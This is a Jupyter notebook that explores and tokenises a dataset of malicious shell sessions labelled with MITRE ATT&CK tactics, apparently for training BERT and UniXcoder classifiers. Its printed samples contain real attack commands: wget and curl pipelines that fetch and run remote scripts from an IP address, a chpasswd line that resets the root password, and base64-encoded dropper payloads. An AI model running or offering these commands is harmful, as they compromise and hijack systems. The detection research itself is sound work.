# Task 0: General setup

In [1]:
import pandas as pd
import seaborn as sns
import matplotlib.pyplot as plt
import numpy as np
import random
import torch
import torch.nn as nn
from copy import deepcopy
from tqdm.auto import tqdm

seed = 7
np.random.seed(seed)
random.seed(seed)
torch.manual_seed(seed)
torch.cuda.manual_seed(seed)
torch.cuda.manual_seed_all(seed)

def free_cuda_memory():
    if torch.cuda.is_available():
        torch.cuda.empty_cache()
        torch.cuda.ipc_collect()
        print("CUDA memory freed.")
    else:
        print("CUDA is not available. No memory to free.")
free_cuda_memory()

# Set the device to GPU if available, otherwise fallback to CPU
device = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Using device: {device}")

free_cuda_memory()

CUDA memory freed.
Using device: cuda
CUDA memory freed.


C:\Users\matte\AppData\Roaming\Python\Python312\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


# Task 1: Dataset Characterization

Lets read test and train json

In [2]:
train_data = pd.read_json('train.json')
test_data = pd.read_json('test.json')

print(f"Train data head: {train_data[:1]['session']}")
print(f"Train data head: {train_data[:1]['label']}")

Train data head: 0    rm -rf /var/run/1sh ; wget -c http://71.127.14...
Name: session, dtype: object
Train data head: 0    [Execution, Execution, Execution, Execution, E...
Name: label, dtype: object


In [3]:
# Transform the data to an ndarray
train_data['session'] = train_data['session'].apply(lambda x: np.array(x))
test_data['session'] = test_data['session'].apply(lambda x: np.array(x))


#How many different tags do you have? How are they distributed (i.e., how many bash words are assigned per tag)
different_label = set()
for row in train_data['label']:
    for label in row:
        different_label.add(label)
print(f"Different labels: {different_label}, {len(different_label)}")

Different labels: {'Impact', 'Other', 'Defense Evasion', 'Execution', 'Discovery', 'Persistence', 'Not Malicious Yet'}, 7








In [4]:
label_inclination = 0

# Plot a barplot to show the distribution of labels
label_counts = train_data['label'].explode().value_counts()
plt.figure(figsize=(12, 6))
ax = sns.barplot(x=label_counts.index, y=label_counts.values,palette="Set2", hue=label_counts.index, legend=False)
plt.xticks(rotation=label_inclination)
plt.title('Distribution of Labels in Training Data')
plt.xlabel('Labels')
plt.ylabel('Count')
# Add the exact number on top of each bar
for i, v in enumerate(label_counts.values):
    ax.text(i, v + max(label_counts.values)*0.01, str(v), ha='center', va='bottom', fontsize=10)
plt.tight_layout()
plt.show()

#do the same for test data
label_counts_test = test_data['label'].explode().value_counts()
plt.figure(figsize=(12, 6))
ax = sns.barplot(x=label_counts_test.index, y=label_counts_test.values,palette="Set2", hue=label_counts.index, legend=False)
plt.xticks(rotation=label_inclination)
plt.title('Distribution of Labels in Test Data')
plt.xlabel('Labels')
plt.ylabel('Count')
# Add the exact number on top of each bar
for i, v in enumerate(label_counts_test.values):
    ax.text(i, v + max(label_counts_test.values)*0.01, str(v), ha='center', va='bottom', fontsize=10)
plt.tight_layout()
plt.show()

# Side-by-side (grouped) bars instead of overlapping
labels = list(label_counts.index)
for l in label_counts_test.index:
    if l not in labels:
        labels.append(l)

train_vals = [label_counts.get(l, 0) for l in labels]
test_vals  = [label_counts_test.get(l, 0) for l in labels]

x = np.arange(len(labels))
width = 0.4

plt.figure(figsize=(12,6))
ax = plt.bar(x - width/2, train_vals, width=width, label='Train', color='#1f77b4')
ax2 = plt.bar(x + width/2, test_vals, width=width, label='Test', color='#ff7f0e')

# Add counts
for i, v in enumerate(train_vals):
    plt.text(x[i] - width/2, v + max(train_vals + test_vals)*0.01, str(v), ha='center', va='bottom', fontsize=9)
for i, v in enumerate(test_vals):
    plt.text(x[i] + width/2, v + max(train_vals + test_vals)*0.01, str(v), ha='center', va='bottom', fontsize=9)

plt.xticks(x, labels, rotation=label_inclination)
plt.ylabel('Count')
plt.xlabel('Labels')
plt.title('Distribution of Labels in Train vs Test')
plt.legend()
plt.tight_layout()
plt.show()





In [5]:
# Plot the top 10 most frequent words in the training data
def plot_top_words(data, title):
    all_words = []
    for session in data['session']:
        all_words.extend(session.split(" "))

    word_counts = pd.Series(all_words).value_counts().head(10)

    plt.figure(figsize=(12, 6))
    ax = sns.barplot(x=word_counts.index, y=word_counts.values, palette="Set2",hue=word_counts.values,legend=False)
    plt.xticks(rotation=label_inclination)
    plt.title(title)
    plt.xlabel('Words')
    plt.ylabel('Count')

    # Add the exact number on top of each bar
    for i, v in enumerate(word_counts.values):
        ax.text(i, v + max(word_counts.values)*0.01, str(v), ha='center', va='bottom', fontsize=10)

    plt.tight_layout()
    plt.show()
plot_top_words(train_data, 'Top 10 Most Frequent Words in Training Data')
plot_top_words(test_data, 'Top 10 Most Frequent Words in Test Data')



Found echo session with required tags:
 cat /proc/cpuinfo | grep name | wc -l ; echo root:JrBOFLr9oFxB | chpasswd | bash ; echo 321 > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk {print $4,$5,$6,$7,$8,$9;} ; free -m | grep Mem | awk {print $2 ,$3, $4, $5, $6, $7} ...

context of echo with Persistence tag:
	 echo root:JrBOFLr9oFxB | chpasswd | bash ; echo 321 >
	 echo 321 > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat

context of echo with Execution tag:
	 echo 1 > /var/tmp/.systemcache436621 ; cat /var/tmp/.systemcache436621 ; sleep 15s
	 echo IyEvYmluL2Jhc2gKY2QgL3RtcAkKcm0gLXJmIC5zc2gKcm0gLXJmIC5tb3VudGZzCnJtIC1yZiAuWDEzLXVuaXgKbWtkaXIgLlgxMy11bml4CmNkIC5YMTMtdW5peAptdiAvdmFyL3RtcC9kb3RhLnRhci5neiBkb3RhLnRhci5negp0YXIgeGYgZG90YS50YXIuZ3oKc2xlZXAgM3MgJiYgY2QgL3RtcC8uWDEzLXVuaXgvLnJzeW5jL2MKbm9odXAgL3RtcC8uWDEzLXVuaXgvLnJzeW5jL2MvdHNtIC10IDE1MCAtUyA2IC1zIDYgLXAgMjIgLVAgMCAtZi

In [6]:
from collections import Counter

TARGET_CMD = 'echo'
CONTEXT_AFTER = 10
REQUIRED_CMD_TAGS = {'Persistence'}
REQUIRED_SESSION_TAGS = {'Execution'}

def count_command_labels(df, command):
    counts = Counter()
    for words, labels in zip(df.session.str.split(" "), df.label):
        for w, l in zip(words, labels):
            if w == command:
                counts[l] += 1
    return counts

def find_session(df, command, cmd_tags_required, session_tags_required):
    for words, labels in zip(df.session.str.split(" "), df.label):
        cmd_tags = {l for w, l in zip(words, labels) if w == command}
        if cmd_tags_required.issubset(cmd_tags) and any(tag in labels for tag in session_tags_required):
            return words, labels
    return None

def print_context(words, labels, command, target_label, span):
    idxs = [i for i, (w, l) in enumerate(zip(words, labels)) if w == command and l == target_label]
    if not idxs:
        print(f"No '{command}' with tag {target_label} found.")
        return
    print(f"context of {command} with {target_label} tag:")
    for i in idxs:
        print("\t", " ".join(words[i:i+span]))
    print()

# 1. Counts
echo_stats = count_command_labels(train_data, TARGET_CMD)
#print("Echo stats:", echo_stats)

# 2. Plot
plt.figure(figsize=(8, 6))
# matplotlib has no barplot; use seaborn.barplot or plt.bar
ax = sns.barplot(x=list(echo_stats.keys()), y=list(echo_stats.values()), palette="Set2", hue=list(echo_stats.keys()), legend=False)
plt.xlabel("MITRE Tactic Tag", fontsize=18)
plt.ylabel(f"Count of '{TARGET_CMD}'", fontsize=18)
plt.title(f"Distribution of '{TARGET_CMD}' Command by Tag", fontsize=18, fontweight='bold')
for i, v in enumerate(echo_stats.values()):
    ax.text(i, v + max(echo_stats.values())*0.001, str(v),
            ha='center', va='bottom', fontsize=9)
plt.xticks(rotation=45, ha='right', fontsize=14)
plt.yticks(fontsize=18)
plt.grid(axis='y', linestyle='--')
plt.tight_layout()
plt.show()

# 3. Find representative session
echo_session = find_session(
    train_data,
    TARGET_CMD,
    REQUIRED_CMD_TAGS,
    REQUIRED_SESSION_TAGS
)

if echo_session is None:
    print("No session found matching the criteria.")
else:
    words, labels = echo_session
    print("Found echo session with required tags:\n", " ".join(words[:60]), "...")
    print()
    print_context(words, labels, TARGET_CMD, 'Persistence', CONTEXT_AFTER)
    print_context(words, labels, TARGET_CMD, 'Execution', CONTEXT_AFTER)



In [7]:
from collections import Counter
def get_ecdf(list_numbers):
    counter = Counter(list_numbers)
    values = sorted(counter.keys())
    counts = [counter[value] for value in values]
    # Step 2: Calculate the CDF
    total = sum(counts)
    cumulative_probs = np.cumsum(counts) / total
    return values, cumulative_probs
n_tokens_x_sentence = [len(el) for el in train_data["session"]]
n_tokens, cumularive_n_tokens = get_ecdf(n_tokens_x_sentence)

fig, axs = plt.subplots(1, 2, figsize=(10, 3))
for ax in axs:
    ax.step(n_tokens, cumularive_n_tokens, where='post', color='royalblue', linewidth=2)
    ax.scatter(n_tokens, cumularive_n_tokens, color='black', s=20)
    ax.grid(True, linestyle='--', alpha=0.7)
    ax.set_ylabel('ECDF |Tokens|', fontsize=12)
    ax.set_ylim(0, 1.05)
    ax.axvline(512, 0, 1.05, c="firebrick", label = f"Context size model")
    ax.legend()

fig.suptitle('ECDF distribution of number of tokens', fontsize=14)
axs[0].set_xlabel('|Tokens|', fontsize=12)
axs[1].set_xlabel('log |Tokens|', fontsize=12)
axs[1].set_xscale("log")
plt.show()

In [8]:
train_lengths = train_data['session'].str.split(" ").apply(len)
test_lengths = test_data['session'].str.split(" ").apply(len)

print("Train session length stats:")
print("Min: ", train_lengths.min())
print("Median:", train_lengths.median())
print("Mean:", train_lengths.mean())
print("90th percentile:", np.percentile(train_lengths, 90))
print("Max:", train_lengths.max())
print()
print("Test session length stats:")
print("Min: ", test_lengths.min())
print("Median:", test_lengths.median())
print("Mean:", test_lengths.mean())
print("90th percentile:", np.percentile(test_lengths, 90))
print("Max:", test_lengths.max())

Train session length stats:
Min:  2
Median: 17.0
Mean: 45.71713147410359
90th percentile: 147.0
Max: 224

Test session length stats:
Min:  2
Median: 23.5
Mean: 57.379629629629626
90th percentile: 166.39999999999995
Max: 224


# Task 2: Tokenization

In [9]:
from transformers import AutoTokenizer

model_name = 'google-bert/bert-base-uncased'
tokenizer = AutoTokenizer.from_pretrained(model_name, add_prefix_space=True)
# model = BertModel.from_pretrained(model_name)

model2_name = 'microsoft/unixcoder-base'
# unicoder-base use roberta tokenizer
tokenizer2 = AutoTokenizer.from_pretrained(model2_name,add_prefix_space=True)
# model2 = BertModel.from_pretrained(model2_name)

print(f"Model1: {model_name},\n  Model2: {model2_name}")
print(f"Tokenizer 1 class: {type(tokenizer).__name__}")
print(f"Tokenizer 2 class: {type(tokenizer2).__name__}")

print(f"Tokenizer vocab size: {tokenizer.vocab_size}")
print(f"Tokenizer2 vocab size: {tokenizer2.vocab_size}")



# Tokenize 1 sample with each tokenizer and print the results
sample = train_data['session'][0]
print(f"Sample: {sample}")
tokens = tokenizer.tokenize(sample)
print(f"Tokens: {len(tokens)}, {tokens}")
tokens2 = tokenizer2.tokenize(sample)
print(f"Tokens2: {len(tokens2)}, {tokens2}")

sample = test_data['session'][0]
print(f"Sample: {sample}")
tokens = tokenizer.tokenize(sample)
print(f"Tokens: {len(tokens)}, {tokens}")
tokens2 = tokenizer2.tokenize(sample)
print(f"Tokens2: {len(tokens2)}, {tokens2}")

Model1: google-bert/bert-base-uncased,
  Model2: microsoft/unixcoder-base
Tokenizer 1 class: BertTokenizerFast
Tokenizer 2 class: RobertaTokenizerFast
Tokenizer vocab size: 30522
Tokenizer2 vocab size: 51416
Sample: rm -rf /var/run/1sh ; wget -c http://71.127.148.69/.x/1sh -P /var/run && sh /var/run/1sh & rm -rf /tmp/2sh ; wget -c http://71.127.148.69/.x/2sh -P /tmp && sh /tmp/2sh & curl http://71.127.148.69/.x/3sh | sh ;
Tokens: 116, ['rm', '-', 'rf', '/', 'var', '/', 'run', '/', '1', '##sh', ';', 'w', '##get', '-', 'c', 'http', ':', '/', '/', '71', '.', '127', '.', '148', '.', '69', '/', '.', 'x', '/', '1', '##sh', '-', 'p', '/', 'var', '/', 'run', '&', '&', 'sh', '/', 'var', '/', 'run', '/', '1', '##sh', '&', 'rm', '-', 'rf', '/', 't', '##mp', '/', '2', '##sh', ';', 'w', '##get', '-', 'c', 'http', ':', '/', '/', '71', '.', '127', '.', '148', '.', '69', '/', '.', 'x', '/', '2', '##sh', '-', 'p', '/', 't', '##mp', '&', '&', 'sh', '/', 't', '##mp', '/', '2', '##sh', '&', 'curl', 'http'

In [10]:
command = ["cat shell echo top chpasswd crontab wget busybox grep"]

table_data = []
for cmd in command:
    bert_toks = tokenizer.tokenize(cmd)
    roberta_toks = tokenizer2.tokenize(cmd)
    table_data.append({
        'Command': cmd,
        'BERT tokens': bert_toks,
        'Num BERT tokens': len(bert_toks),
        'UniXcoder tokens': roberta_toks,
        'Num UniXcoder tokens': len(roberta_toks)
    })

df = pd.DataFrame(table_data)
display(df)

,Command,BERT tokens,Num BERT tokens,UniXcoder tokens,Num UniXcoder tokens
0,cat shell echo top chpasswd crontab wget busyb...,"[cat, shell, echo, top, ch, ##pass, ##wd, cr, ...",16,"[Ġcat, Ġshell, Ġecho, Ġtop, Ġch, passwd, Ġc, r...",14


Roberta tokenizer usa meno token rispetto a BERT tokenizer

In [11]:
train_data['bert_tokenized'] = train_data['session'].apply(lambda x: tokenizer.tokenize(x))
train_data['uni_tokenized'] = train_data['session'].apply(lambda x: tokenizer2.tokenize(x))

test_data['bert_tokenized'] = test_data['session'].apply(lambda x: tokenizer.tokenize(x))
test_data['uni_tokenized'] = test_data['session'].apply(lambda x: tokenizer2.tokenize(x))

toks1 = train_data['bert_tokenized'].apply(len)
toks2 = train_data['uni_tokenized'].apply(len)

data_token=[]
data_token.append({
    'Name': 'BERT',
    'Count': len(toks1),
    'Mean': toks1.mean(),
    'Std': toks1.std(),
    'Min': toks1.min(),
    'Max': toks1.max(),
    'Median': toks1.median(),
})
data_token.append({
    'Name': 'UniXcoder',
    'Count': len(toks2),
    'Mean': toks2.mean(),
    'Std': toks2.std(),
    'Min': toks2.min(),
    'Max': toks2.max(),
    'Median': toks2.median(),
})
df_token = pd.DataFrame(data_token)
display(df_token)

Token indices sequence length is longer than the specified maximum sequence length for this model (1887 > 512). Running this sequence through the model will result in indexing errors


,Name,Count,Mean,Std,Min,Max,Median
0,BERT,251,176.585657,314.797477,2,1887,69.0
1,UniXcoder,251,407.322709,2579.138331,2,28918,60.0


In [12]:
print("Model Maximum Token Lengths:")
print(f"  BERT:      {tokenizer.model_max_length}")
print(f"  UniXcoder: {tokenizer2.model_max_length}\n")

bert_truncated = train_data['bert_tokenized'].apply(lambda x: len(x) > tokenizer.model_max_length).sum()
unix_truncated = train_data['uni_tokenized'].apply(lambda x: len(x) > tokenizer2.model_max_length).sum()

print(f"Sessions exceeding max length:")
print(f"  BERT:      {bert_truncated}")
print(f"  UniXcoder: {unix_truncated}")



Model Maximum Token Lengths:
  BERT:      512
  UniXcoder: 1000000000000000019884624838656

Sessions exceeding max length:
  BERT:      24
  UniXcoder: 0


In [13]:
def show_top_lengths(toks1, toks2, top=10, name1="BERT", name2="UniXcoder"):
    # Assumiamo siano pandas Series: indice = session index, valore = lunghezza
    top1 = toks1.sort_values(ascending=False).head(top)
    top2 = toks2.sort_values(ascending=False).head(top)

    print(f"\nTop {top} sessioni per numero di token ({name1}):")
    print(top1.to_frame(name1).reset_index(names="Index").to_string(index=False))

    print(f"\nTop {top} sessioni per numero di token ({name2}):")
    print(top2.to_frame(name2).reset_index(names="Index").to_string(index=False))

    # Confronto unificato sugli indici che appaiono in almeno una delle due top list
    union_idx = top1.index.union(top2.index)
    comp = (
        pd.DataFrame({
            "Index": union_idx,
            name1: toks1.reindex(union_idx).values,
            name2: toks2.reindex(union_idx).values
        })
        .assign(Diff=lambda d: d[name1] - d[name2],
                Ratio=lambda d: (d[name1] / d[name2]).round(3).replace([np.inf, -np.inf], np.nan))
        .sort_values(by=[name1, name2], ascending=False)
    )

    print(f"\nConfronto sui {len(union_idx)} indici presenti almeno in una top list:")
    print(comp.to_string(index=False))

# Uso:
show_top_lengths(toks1, toks2, top=10)


Top 10 sessioni per numero di token (BERT):
 Index  BERT
    14  1887
   191  1886
   193  1691
    37  1682
   190  1682
    31  1673
   199  1655
   113  1189
   237   635
    74   631

Top 10 sessioni per numero di token (UniXcoder):
 Index  UniXcoder
    14      28918
   191      28918
    37       1740
   193       1731
   190       1722
    31       1722
   199       1713
   113       1179
    74        999
   249        967

Confronto sui 11 indici presenti almeno in una top list:
 Index  BERT  UniXcoder   Diff  Ratio
    14  1887      28918 -27031  0.065
   191  1886      28918 -27032  0.065
   193  1691       1731    -40  0.977
    37  1682       1740    -58  0.967
   190  1682       1722    -40  0.977
    31  1673       1722    -49  0.972
   199  1655       1713    -58  0.966
   113  1189       1179     10  1.008
   237   635        414    221  1.534
    74   631        999   -368  0.632
   249   572        967   -395  0.592


In [16]:
#print the 14th session that is the longest as normal, bert tokenized and unixcoder tokenized
print("\n14th longest session (normal):")
longest_14_idx = train_lengths.index[14]
print(train_data.loc[longest_14_idx, 'session'])
print("\n14th longest session (BERT tokenized):")
print(train_data.loc[longest_14_idx, 'bert_tokenized'])
print("\n14th longest session (UniXcoder tokenized):")
print(train_data.loc[longest_14_idx, 'uni_tokenized'])



14th longest session (normal):
cd /tmp || /var/tmp || /dev/shm ; echo ZXZhbCB1bnBhY2sgdT0+cXtfIkZVWSgiMVA8Rl1DOTctUztSYF0oIj1SPFdFTjhSPFsiQEhEPFY1Uj1GRUQ7VyhdKVMkVC1CWFEuIzROLDM8UStDKFItUjxAPTZZTDk3LVMoIjFTXzk3KVY6NjFPPENMKjs3REApJyFPPEcxQS8yPFQtIyxHLlBJTT4yIWA4ViVOODZFUy8yQEIoVyFQKEJEWyJGVVkoJCFBOSZVUy8yQEIwMihMKEVAQl8qM0wqOzdEQDAmJVU9JkBdKiIpTDtWLUE7JkFPPFcwQiozTCoiRlVZKCIxTDo2WUE8VV1NODdAXS1DTCo7N0RAKSctTDk2NVAvMyxbIkBJTT4yYERfO0ZFQzpSYF0oJj1FPSZZSThWTEgqM0wqOzdEQCkmRVI4VllBOzY0QC8yIUc5NzFOOjYtSyoiRFsiRlVZKCIxUjk2JUw7RiVNOTJgXSgiQUA9NllBXzs2NEArNiVAKjNMKiJGVVkoIjFBOFY1UzxWXVM6JjVMOyJgXSgjJFsiRlVZKCIxUDxGNUY6N0FPKCNUQChCJEAoQ0wqOzdEQCkmNVM9JiVUOjctVF86Ni1BPFJgXSgjYFsiRlVZKCIxUDg2LU89JjVTKCNUQCwzTCoiRlVZKCIxNjE1KTMwNFxALzJgRywiWFI4MjxbIkBIRDRURSc+Uj0pM0UwRz8yYF1fKCI9KTFUWS80RDRHLlBIRDRURSc+Uj0oNTVgRz8yYF0oIj0pMVRZLzRENEcuUEhENFRFJz5SPTQxNSktKVdUQC8yYEcyND0uM1UpJSlTTCopJS0pXzFXTEcwVEEsMSI9XSgjVEApVEUnM0RdMjEyPFsiQjEzMjQ9WylVITMpV1RALzJgRzI0PS4zVSklKVNMKiJHNVM5MiEpM1NIWjRWXUM6VjVULlBJV

In [14]:
def truncate_long_words(session, max_length=30):
    return ' '.join([w[:max_length] for w in session.split(" ")])

#count the number of words in session that are longer than max_length
number_of_long_words_train = train_data['session'].apply(lambda x: sum(len(word) > 30 for word in x.split(" ")))
print(f"Number of words longer than {30} characters in training data: {number_of_long_words_train.sum()}")

number_of_long_words_test = test_data['session'].apply(lambda x: sum(len(word) > 30 for word in x.split(" ")))
print(f"Number of words longer than {30} characters in test data: {number_of_long_words_test.sum()}\n\n")


train_data['tr_session'] = train_data['session'].apply(truncate_long_words)
test_data['tr_session'] = test_data['session'].apply(truncate_long_words)

train_data['trunc_bert_tokenized'] = train_data['tr_session'].apply(tokenizer.tokenize)
train_data['trunc_uni_tokenized'] = train_data['tr_session'].apply(tokenizer2.tokenize)

test_data['trunc_bert_tokenized'] = test_data['tr_session'].apply(tokenizer.tokenize)
test_data['trunc_uni_tokenized'] = test_data['tr_session'].apply(tokenizer2.tokenize)

tok1_len = train_data['trunc_bert_tokenized'].apply(len)
tok2_len = train_data['trunc_uni_tokenized'].apply(len)

# print("BERT (truncated) token stats:\n", tok1_len.describe())
# print("UniXcoder (truncated) token stats:\n", tok2_len.describe())

word_counts = train_data['tr_session'].apply(lambda x: len(x.split(" ")))
bert_ratio = (tok1_len / word_counts).mean()
uni_ratio = (tok2_len / word_counts).mean()

# toks1 = train_data['tr_session'].apply(len)
# toks2 = train_data['uni_tokenized'].apply(len)

data_token=[]
data_token.append({
    'Name': 'BERT',
    'Count': len(tok1_len),
    'Mean': tok1_len.mean(),
    'Std': tok1_len.std(),
    'Min': tok1_len.min(),
    'Max': tok1_len.max(),
    'Median': tok1_len.median(),
})
data_token.append({
    'Name': 'UniXcoder',
    'Count': len(tok2_len),
    'Mean': tok2_len.mean(),
    'Std': tok2_len.std(),
    'Min': tok2_len.min(),
    'Max': tok2_len.max(),
    'Median': tok2_len.median(),
})
df_token = pd.DataFrame(data_token)
display(df_token)


print(f"\nAverage tokens per word (BERT): {bert_ratio:.2f}")
print(f"Average tokens per word (UniXcoder): {uni_ratio:.2f}")

Number of words longer than 30 characters in training data: 178
